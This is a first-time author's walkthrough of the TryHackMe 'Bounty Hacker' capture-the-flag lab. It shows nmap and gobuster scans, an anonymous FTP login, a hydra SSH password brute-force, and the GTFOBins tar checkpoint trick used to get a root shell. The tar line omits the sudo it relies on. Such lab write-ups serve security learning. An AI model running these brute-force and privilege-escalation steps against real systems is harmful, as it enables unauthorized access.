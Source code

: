 ```yaml
---
title: Bounty Hacker CTF Writeup
tags:
  - tryhackme
  - ctf
  - easy
---
```

# [Bounty Hacker CTF](https://tryhackme.com/r/room/cowboyhacker) - TryHackMe

**Author:** [Sevuhl](https://tryhackme.com/p/Sevuhl)  
**Date:** July 31, 2020  
**Category:** General   
**Difficulty:** Easy   

---
## Challenge Description

The following was the given description of the CTF. 
"You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker! You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!" 
Kind of corny in my opinion but we move.
Basically we have to answer a few basic questions about the given machine. Which are:
- Find open ports on the machine
- Who wrote the task list?
- What service can you bruteforce with the text file found?
- What is the users password?
- user.txt
- root.txt

---

First I deployed the machine and ran a basic [[Nmap]] scan to find the open ports.

```
nmap 10.10.8.22 -vv -T4 
```

This is the result we got

```
PORT      STATE  SERVICE         REASON
20/tcp    closed ftp-data        conn-refused
21/tcp    open   ftp             syn-ack
22/tcp    open   ssh             syn-ack
80/tcp    open   http            syn-ack
990/tcp   closed ftps            conn-refused
40193/tcp closed unknown         conn-refused
40911/tcp closed unknown         conn-refused
41511/tcp closed unknown         conn-refused
42510/tcp closed caerpc          conn-refused
44176/tcp closed unknown         conn-refused
44442/tcp closed coldfusion-auth conn-refused
44443/tcp closed coldfusion-auth conn-refused
44501/tcp closed unknown         conn-refused
45100/tcp closed unknown         conn-refused
48080/tcp closed unknown         conn-refused
49152/tcp closed unknown         conn-refused
49153/tcp closed unknown         conn-refused
49154/tcp closed unknown         conn-refused
49155/tcp closed unknown         conn-refused
49156/tcp closed unknown         conn-refused
49157/tcp closed unknown         conn-refused
49158/tcp closed unknown         conn-refused
49159/tcp closed unknown         conn-refused
49160/tcp closed unknown         conn-refused
49161/tcp closed unknown         conn-refused
49163/tcp closed unknown         conn-refused
49165/tcp closed unknown         conn-refused
49167/tcp closed unknown         conn-refused
49175/tcp closed unknown         conn-refused
49176/tcp closed unknown         conn-refused
49400/tcp closed compaqdiag      conn-refused
49999/tcp closed unknown         conn-refused
50000/tcp closed ibm-db2         conn-refused
```

next we have a look at the website and also run [[Gobuster]] on it along the side with a common wordlist.

```
gobuster dir -u http://10.10.8.22 -w /usr/share/wordlists/dirb/common.txt
```

Well that did not reveal anything interesting. So After that I tried to anonymous login to ftp

```
ftp -h <ip-address>
```

I used the username `anonymous` without any password. This worked.
I wanted to list down all the files on the ftp-server but I could not use `ls` command. It kept giving me this odd response: 
```
229 Entering Extended Passive Mode (|||19499|)
```
I ran the `help` command to look for the available commands . There I found `dir` which chatgpt told me works similar to `ls -l` . I used it and got two files.
- locks.txt
- tasks.txt
I downloaded both files using the `get` command. looking into the tasks.txt file I found a username at the end 
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-***
```
This answered the first question.
Next looking at locks.txt I found a list of alphanumeric strings that looked like passwords. the SSH port (22) was also open. I had the Ip-address I had the username and a list of passwords. I could try brute forcing it. This also answered one of our questions of which service can be bruteforced.

I used [[hydra]] to brute force SSH using the following command

```
hydra -l *** -P locks.txt ssh://10.10.8.22
```

I got the following response

```
[DATA] attacking ssh://10.10.8.22:22/
[22][ssh] host: 10.10.8.22   login: ***   password: *****************
1 of 1 target successfully completed, 1 valid password found
```

This answered one of our questions as well.

I used the password and the username to log in to SSH

I ran a simple `ls` command to find out what was inside and found the user.txt with a flag inside.
 to find the root.txt I tried to run the find command but was unable to find anything interesting without root privileges. I was unable to run using `sudo` as I did not have root permissions. I got stuck here and looked into another writeup where I found the `sudo -l` to list the allowed commands. It gave me the following response:
 ```
 User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

I had a quick look at [GTFO Bins](https://gtfobins.github.io/) to find this about `tar`

It can be used to break out from restricted environments by spawning an interactive system shell.

```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

After running this command I was able to run the following find command:

```
sudo find / -name root.txt 2>/dev/null
```

I got the root.txt and found the last flag. That finishes our CTF. 

## Conclusion
The CTF itself was pretty easy. Other than the last step for privilege escalation using `tar` I was able to figure out everything myself. 

> [!NOTE] NOTE
> This was my first Writeup to any CTF. I tried my best. It must definitely be lacking in many areas. Still I hope it helped. If you could provide me with some feedback that would be great. It would help me improve in the future. You can contact me through [LinkedIn](https://www.linkedin.com/in/mraum/). Thankyou!

